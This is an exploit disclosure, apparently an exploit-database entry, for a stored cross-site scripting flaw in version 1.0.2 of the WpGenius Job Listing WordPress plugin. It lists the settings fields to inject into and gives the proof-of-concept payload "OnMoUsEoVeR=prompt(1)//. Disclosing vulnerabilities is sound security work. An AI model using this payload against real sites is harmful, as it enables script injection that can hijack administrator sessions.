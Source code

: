 # Exploit Title: WrodPress Plugin WpGenius Job Listing ——"Settings" Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/wpgenious-job-listing/
# Version :  V 1.0.2
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Job Listing 》 Settings 》General》Default message for ( no job ) ,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image](https://github.com/BigTiger2020/word-press/blob/main/WpGenius%20Job%20Listing.gif) 
2.  Job Listing 》 Settings 》E-mail notifications》Reply-To and Subject,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image](https://github.com/BigTiger2020/word-press/blob/main/WpGenius%20Job%20Listing.gif)  

